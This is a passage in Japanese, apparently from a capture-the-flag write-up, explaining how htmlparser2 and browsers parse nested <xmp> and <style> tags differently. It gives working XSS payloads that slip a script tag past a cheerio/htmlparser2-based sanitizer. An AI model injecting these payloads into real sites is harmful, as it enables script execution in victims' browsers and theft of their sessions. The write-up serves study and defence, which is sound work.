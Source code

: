 次のような入力を考える。

```
<xmp><xmp><style></xmp><script src="X"></style></xmp></xmp>
```

ブラウザは次のように解釈する
<div class="code-block-container"><pre class="language-html"><code class="language-html code-line" data-line="627"><span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>xmp</span><span class="token punctuation">></span></span>
  &lt;xmp&gt;&lt;style&gt; // 文字列
<span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>xmp</span><span class="token punctuation">></span></span>
<span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>script</span> <span class="token attr-name">src</span><span class="token attr-value"><span class="token punctuation attr-equals">=</span><span class="token punctuation">"</span>X<span class="token punctuation">"</span></span><span class="token punctuation">></span></span>
<span class="token comment">&lt;/style&gt;&lt;/xmp&gt;&lt;/xmp&gt; // 不要な閉じタグ</span>
</code></pre></div>

しかし、htmlparser2は次のように解釈する。

<div class="code-block-container"><pre class="language-html"><code class="language-html code-line" data-line="627"><span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>xmp</span><span class="token punctuation">></span></span>
  <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>xmp</span><span class="token punctuation">></span></span>
    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>style</span><span class="token punctuation">></span></span>
      &lt;/xmp&gt;&lt;script src="X"&gt; // CSS
    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>style</span><span class="token punctuation">></span></span>
  <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>xmp</span><span class="token punctuation">></span></span>
<span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>xmp</span><span class="token punctuation">></span></span>
</code></pre></div>

このペイロードであれば、htmlparser2がscriptタグを認識しないが、ブラウザがscriptタグを認識するようにできる。


### Step 2: cheerio + htmlparser2

最初は、cheerioもhtmlparser2も誤解するようなペイロードを考えていたが、調べてもcheerioに関する利用できそうなバグ報告は見つからない。0dayの可能性もあったが、傾向からして流石に0dayは出題しないだろうと考え、方針を改める。

上記のようにhtmlparser2に脆弱性があるのであれば、次のようなペイロードが存在するかもしれない。
* 初期状態では、ブラウザもcheerioもscriptタグを認識しない
* htmlparser2は、ペイロードを誤ってパースし、危険なペイロードに書き換える
* 書き換えられたペイロードはブラウザでscriptタグを実行させる

いろいろ試行錯誤した結果、次のペイロードが刺さった
```
<xmp><xmp><a></a id=</xmp><style></xmp><script src="X"></script></style>
```
